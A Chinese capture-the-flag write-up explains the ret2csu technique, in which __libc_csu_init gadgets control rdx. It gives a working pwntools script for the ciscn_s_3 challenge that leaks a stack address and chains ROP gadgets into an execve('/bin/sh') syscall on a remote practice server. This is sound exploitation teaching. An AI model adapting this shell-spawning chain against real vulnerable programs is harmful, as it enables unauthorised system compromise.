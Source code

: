 ## ret2cus

利用初始化函数__libc_csu_init

一般的程序都会调用libc中的函数，而此函数便是来将libc初始化的，故此函数几乎是每一个程序所必备的。一般可以用来让`rdx=0`

### 32位

32位采用`int 80`指令调用底层

### 64位

![image-20240513212502274](image/image-20240513212502274.png)

可以看到`pop r13`和`mov rdx,r13`只要把`r13=0`，就可以把`rdx=0`,64位采用`syscall`指令

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',28262)
#p=process('./ciscn_s_3')
elf=ELF('./ciscn_s_3')
pop_rdi=0x4005a3	#rdi = 0
pop_rsi_r15=0x4005a1	#rsi = 0
pop_rdx_6=0x40059A	#csu第一段函数
mov_rdx_0=0x400580	#csu第二段函数，里面有call r12的函数
mov_rax_0x3b=0x4004E2	#程序给的系统调用函数,mov rax,0x3b ret
syscall=0x400517
vuln_addr=elf.sym['vuln']

payload1=flat(b'/bin/sh\x00',cyclic(0x8),p64(vuln_addr))#由于没有pop rbp，直接覆盖到old_rbp就可以，所有少了8字节
p.send(payload1)
p.recv(0x20)
bin_sh=u64(p.recv(8))-0x118 #泄露/bin/sh的真实地址
print(hex(bin_sh))

payload2=flat(b'/bin/sh\x00',cyclic(0x8),p64(pop_rdx_6),0,0,p64(bin_sh+0x50),0,0,0,p64(mov_rdx_0))
#bin_sh+0x50是对于下面pop_rdi=0x4005a3地址的偏移，call的push下一地址会和执行的pop_rdi相互抵消了，所有实际上就是绕过了call函数，继续执行下面的函数
payload2+=flat(p64(pop_rdi),p64(bin_sh),p64(pop_rsi_r15),0,0,p64(mov_rax_0x3b),p64(syscall))
p.send(payload2)
p.interactive()
```
